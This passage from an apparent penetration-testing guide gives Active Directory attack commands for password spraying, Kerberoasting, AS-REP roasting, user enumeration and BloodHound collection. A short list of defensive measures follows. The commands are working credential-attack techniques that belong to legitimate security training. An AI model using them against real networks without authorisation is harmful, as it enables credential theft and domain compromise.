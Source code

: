 #### Authentication Attacks

1.  **Password spraying**

    ```bash
    crackmapexec smb 172.16.5.5 -u users.txt -p 'Welcome1' --continue-on-success
    ```
2.  **Kerberoasting**

    ```bash
    # Using Impacket
    GetUserSPNs.py domain.local/user:password -dc-ip 192.168.1.100 -request
    ```
3.  **AS-REP Roasting**

    ```bash
    GetNPUsers.py domain.local/ -usersfile users.txt -dc-ip 192.168.1.100
    ```

#### Post-Exploitation Enumeration

1.  **Active Directory module (PowerShell)**

    ```powershell
    Import-Module ActiveDirectory
    Get-ADDomain
    Get-ADUser -Filter * -Properties *
    ```
2.  **BloodHound data collection**

    ```powershell
    # Using SharpHound
    Invoke-BloodHound -CollectionMethod All
    ```

### Active Directory Defense in Depth

Understanding defensive measures helps test their effectiveness:

1. **Privileged Access Management**
   * Just-In-Time administration
   * Privileged Access Workstations (PAWs)
   * Administrative tiering
2. **Enhanced Security Features**
   * Protected Users group
   * Credential Guard
   * Device Guard
   * LAPS (Local Administrator Password Solution)
3. **Monitoring and Detection**
   * Advanced Threat Analytics
   * Security event monitoring
   * Honeytoken accounts

